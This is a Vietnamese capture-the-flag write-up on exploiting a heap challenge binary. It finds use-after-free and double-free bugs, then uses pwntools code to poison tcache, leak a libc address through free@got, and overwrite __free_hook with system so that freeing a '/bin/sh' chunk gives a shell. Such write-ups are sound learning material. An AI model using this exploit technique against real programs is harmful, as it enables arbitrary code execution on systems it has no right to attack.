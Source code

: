 **1. Tìm lỗi**

Sau khi pwninint thì thấy phiên bản libc là 2.2 -> tcache được bật và nó không gây ra lỗi khi Double Free

Dùng IDA dịch thì thấy hàm getFlag ở lựa chọn 1:

![getFlag.png](photo/getFlag.png)

![free.png](photo/free.png)

Tiếp tục đọc source thì thấy ở lựa chọn 6 và 7 đều free nhưng không loại bỏ con troe đến đoạn giải phóng -> Use after free

![var.png](photo/var.png)

Chương tình có 2 biến chứa con trỏ đến đoạn malloc(0x10). Với lỗi Use after free thì có thể in giá trị một đoạn được giải phóng và lạm dụng danh sách liên kết tcache bằng cách chỉnh sửa con trỏ chuyển tiếp

**2. Ý tưởng**

Với lựa chọn 1 thì sẽ in thông tin admin. Với lỗi Use After Free và Double Free chúng ta cần cho user và admin trỏ đến cùng 1 đoạn, sau đó ghi đè lên ptr với biến user thông qua địa chỉ getFlag

**3. Khai thác**

Đầu tiên viết 7 hàm cho 7 lựa chọn trong chương trình như sau:

```
def newAdmin():
    r.sendlineafter(b'Choice: ', b'1')

def newUser(name):
    r.sendlineafter(b'Choice: ', b'2')
    r.sendafter(b'What is your name: ', name)

def printAdmin():
    r.sendlineafter(b'Choice: ', b'3')
    
def editStudent(name):
    r.sendlineafter(b'Choice: ', b'4')
    r.sendafter(b'What is your name: ', name)
    
def printStudent():
    r.sendlineafter(b'Choice: ', b'5')
    return r.recvline()

def deleteAdmin():
    r.sendlineafter(b'Choice: ', b'6')


def deleteUser():
    r.sendlineafter(b'Choice: ', b'7')
```

Tiếp theo sẽ tận dụng danh sách liên kết tcache để làm cho admin và user cùng trỏ đến cùng 1 doạn

```
newUser(b'0'*8)
deleteUser()
newAdmin()
```

Việc bây giờ là lấy địa chỉ hàm getFlag đưa vào biến User và thực hiện lựa chọn printAdmin vì bây giờ admin và user cùng trỏ đến một giá trị

```
getFlag = 0x40084a
editStudent(p64(0) + p64(getFlag))
print(printAdmin())
```

**4. Lấy cờ**

![fake.png](photo/fake.png)

Ý tưởng này đã thất bại khi file flag.txt không phải là nơi chứa flag

**2.1 Ý tưởng thứ 2**

Tận dụng danh sách liên kết tcache bằng cách Double Free user sau đó Use after free để ghi đè con trỏ chuyển tiếp bằng free@got

```
newUser(b'AuDuc')
deleteUser()
deleteUser()
```

Có địa chỉ free@got như sau:

![free_got.png](photo/free_got.png)

Sau đó chúng ta malloc 2 khối admin (để thiết lập lại tcache) và user(để rò rỉ địa chỉ)

```
newAdmin()
newUser(b'A')
free_addr = printStudent().split(b'name is ')[1][1:-1]
```

![free1.png](photo/free1.png)

![free2.png](photo/free2.png)

Ta thấy địa chỉ leak ra thiếu byte x50 cuối nên sẽ thêm vào

```
free_addr = u64(b'\x50' + free_addr + b'\x00\x00')
```

Sau khi leak được địa chỉ của free thì bằng những câu lệnh sau sẽ leak được địa chỉ libc base:

```
libc.address = free_addr - libc.sym['free']
print('Libc base: ', hex(libc.address))
```

Kết quả được

![libc.png](photo/libc.png)

Tiếp theo sẽ chỉnh sửa free@got

```
editStudent(p64(libc.sym['free']))
```

Sau khi ghi đè con trỏ phía trước vào đoạn free@got và malloc2, tcache hiểu nhầm địa chỉ trước đó là free_leak là kích thước để sử dụng sau:

![bins.png](photo/bins.png)

Tiếp theo sẽ free admin địa chỉ bộ nhớ tcache là chính xác: ```deleteAdmin()```

![bins1.png](photo/bins1.png)

Nhưng ở đây địa chỉ bộ nhớ tcache chưa được chính xác nên tạo user và Double free

```
newUser(b'A'*8)
deleteUser()
deleteUser()
```

![bins2.png](photo/bins2.png)

Và ở đây địa chỉ tcache đã chính xác

Tiếp theo ghi đè lên forward poiter địa chỉ __free_hook: ```editStudent(p64(libc.sym['__free_hook']))```

Tiếp theo là ghi vào tcache địa chỉ system:

```
newUser(b'A'*8)
newUser(p64(libc.sym['system']))
```
Lưu ý: Free sẽ kiểm tra xem __free_hook có trống không nếu không thì thực hiện chức năng bên trong

Tạo thêm chunk với giá trị /bin/sh: ```newUser(b'/bin/sh\x00')```

Việc còn lại là free để thực hiện shell

**4.1 Lấy flag lần 2**

![flag.png](photo/flag.png)

